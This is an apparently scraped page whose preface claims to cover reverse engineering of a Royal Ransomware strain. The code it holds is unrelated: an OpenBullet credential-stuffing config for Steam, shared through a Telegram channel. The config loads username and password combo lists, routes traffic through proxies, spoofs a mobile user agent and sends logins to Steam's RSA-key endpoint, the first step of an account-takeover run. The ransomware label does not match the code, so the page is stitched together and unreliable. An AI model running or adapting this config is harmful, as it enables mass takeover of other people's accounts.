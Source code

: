 Again credits to https://socradar.io/dark-web-profile-royal-ransomware/. I believe that this is a strain of Royal-Ransomware. Due to the complexity of Reverse engineering these rust binaries this is all im gonna write. This took me on a unaccepted and fun journey and I discovered some weird stuff I might not have!

```
[SETTINGS]
{
  "Name": "Steam",
  "SuggestedBots": 30,
  "MaxCPM": 0,
  "LastModified": "2024-04-30T20:54:53.3625014+03:30",
  "AdditionalInfo": "Telegram Channel : T.me/OpenBulletChannel | Capture | CPM Rate : 50-1000",
  "RequiredPlugins": [],
  "Author": "@TheOwn",
  "Version": "1.2.2",
  "SaveEmptyCaptures": false,
  "ContinueOnCustom": false,
  "SaveHitsToTextFile": false,
  "IgnoreResponseErrors": false,
  "MaxRedirects": 8,
  "NeedsProxies": true,
  "OnlySocks": false,
  "OnlySsl": false,
  "MaxProxyUses": 0,
  "BanProxyAfterGoodStatus": false,
  "BanLoopEvasionOverride": -1,
  "EncodeData": false,
  "AllowedWordlist1": "UserPass",
  "AllowedWordlist2": "",
  "DataRules": [],
  "CustomInputs": [],
  "ForceHeadless": false,
  "AlwaysOpen": false,
  "AlwaysQuit": false,
  "QuitOnBanRetry": false,
  "DisableNotifications": false,
  "CustomUserAgent": "",
  "RandomUA": false,
  "CustomCMDArgs": ""
}

[SCRIPT]
JUMP #AppleWebKit
#PARSESOURCE
#UA FUNCTION Constant "Mozilla/5.0 (iPhone; CPU iPhone OS 10_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/497.322 Mobile/15A302 Safari/604.1" -> VAR "S" 

#US FUNCTION Replace "@.*" "" UseRegex=TRUE "<USER>" -> VAR "US" 

#T FUNCTION CurrentUnixTime -> VAR "0" 

REQUEST POST "https://steamcommunity.com/login/getrsakey/" 
  CONTENT "donotcache=<0>&username=<US>" 
  CONTENTTYPE "application/x-www-form-urlencoded" 
  HEADER "Accept: */*" 
  HEADER "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" 
  HEADER "Origin: https://steamcommunity.com" 
  HEADER "X-Requested-With: XMLHttpRequest" 
  HEADER "User-Agent: <S>" 
  HEADER "Accept-Encoding: gzip, deflate, br" 
  HEADER "Accept-Language: en-us" 


```